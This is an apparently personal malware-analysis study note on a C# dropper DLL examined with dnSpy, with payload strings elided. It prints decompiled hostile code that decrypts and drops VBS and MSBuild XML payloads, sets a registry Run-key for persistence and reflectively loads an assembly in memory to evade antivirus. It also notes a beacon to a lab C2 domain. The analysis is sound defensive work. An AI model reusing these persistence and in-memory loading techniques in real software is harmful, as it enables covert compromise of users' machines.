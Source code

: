 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/c-sharp-malware-analysis/","tags":["malware"]}
---
```


[[map-of-contents/malware\|malware]] 
### Introduction 
---
In a C# when performing static analysis by getting the strings - the output is usually cleaner no junk unlike C or C++ binaries.

![[Pasted image 20240620200434.png\|350]]

The **mscorlib** is a series of .NET libraries that can be imported to C# - in a compiled language such as C, C++, C# and more - the compiler translates the code into a machine code - however C# takes one more step - the **common language runtime** it is a single set of machine code for many types of languages, so every binary created using the .NET framework will go under the CLT - the **C# compiler** will create what is called **Intermediate Language**, it will acts as a broker between the compiler and the **CLR**.

![[Pasted image 20240620211429.png\|Pasted image 20240620211429.png]]
## dnSpy
---
It will translate the immediate language as closely to the source code as possible:

![[Pasted image 20240621184359.png\|450]]

The **EmbedDLL** is the filename when it was compiled but the name now is different.

```C#
// Line 1
byte[] array = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("p0w3r0verwh3lm1ng!"));     
// Line 2
string text = new StreamReader(new MemoryStream(Cryptor.AES_Decrypt(Convert.FromBase64String("Very Long B64 here"), array))).ReadToEnd();

// Line 3
File.WriteAllText(Environment.GetEnvironmentVariable("public") + "\\embed.xml", text);

// Line 4
string text2 = new StreamReader(new MemoryStream(Convert.FromBase64String("B64"))).ReadToEnd();

// Line 5
File.WriteAllText("C:\\Users\\Public\\Documents\\embed.vbs", text2);
```

- `Line 1` - Hashes the string that is encoded in `UTF-8` using `SHA256` .
- `Line 2` - Decodes the Base64 uses `Line 1` value a symmetric key to decrypt the decoded base64
- `Line 3` - Creates a file in the public directory name `embed.xml` with the value from `Line 2` variable name `text`.
- `Line 4` - Decodes Base64 
- `Line 5` - Creates a VBscript name `embed.vbs` with the contents of `text2` from `Line 4` in the public document directory.

```C#
try
			{
				RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64).OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true).SetValue("embed", "C:\\Users\\Public\\Documents\\embed.vbs");
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
```

The whole code establishes persistence by running the `embed.vbs` everytime the user logs on.
###  Running a DLL
---
Running a `.dll` is not possible as they don't have a main function like an executable file instead it contains functions called by other programs however we can use the built-in tool by Windows name `rundll32 file.dll, func_name`:

![[Pasted image 20240621192723.png\|Pasted image 20240621192723.png]]


```C
rundll32 Malware.cryptlib64.dll,embed
```

Looking at the directories:

![[Pasted image 20240621193145.png\|Pasted image 20240621193145.png]]

It opens the msbuild.exe to build the `embed.xml` and the `.xml` file contains:

![[Pasted image 20240621193302.png\|Pasted image 20240621193302.png]]
It decodes a base64 and invokes what is the result from it and looking at Wireshark it seems to contact this domain:

```
http://srv.masterchiefsgruntemporium.local/en-us/index.html
```

![[Pasted image 20240621200458.png\|Pasted image 20240621200458.png]]

At the registry editor:

![[Pasted image 20240621195928.png\|Pasted image 20240621195928.png]]

A deep dive to the code:

```C#
// Line 0
var oms = new System.IO.MemoryStream();

var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(('Very long'));

var by = new byte[1024];

var r = ds.Read(by, 0, 1024);

while (r > 0) { 
oms.Write(by, 0, r);

r = ds.Read(by, 0, 1024);
}
```

- `Line 1` - Decodes the Base64 encoded string
- `Line 2` - Initialize a byte variable with a size of 1024
- `Line 3` - It reads the value of `ds`  and then uses the `by` to store the decompressed data, the `0` is the offset meaning data is stored in index 0 then specifies the maximum value to read from the stream.
- `Line 4` - Writes a specified number of bytes into a _something_ - the explanation is the same for `Read` as for the parameters passed.

```C#
System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
```

The ‘something’ is actually from `Line 0` which is a memory stream — the `oms` creates a memory stream and the `Write` function writes it into the memory stream and then is invoked.

- The `System.Reflection.Assembly.Load`  - Load everything into memory bypassing EDR and Antivirus.
- The `oms.ToArray()` value will represent the entry point of the assembly indicated by the `EntryPoint` 
- The `.Invoke` is similar to PowerShell `iex`.
### Questions and Problems
---
So what is the purpose of the malware? (Note: I did not perform basic/advanced analysis — went straight to dnSpy)

The indicators for me are these:

- It contacts the domain ‘http://srv.masterchiefsgruntemporium.local/en-us/index.html’
- It makes a POST request — see **Wireshark Image** which is more likely that the dropper is telling the server ‘Hey I successfully compromised the system’
## Conclusion
---

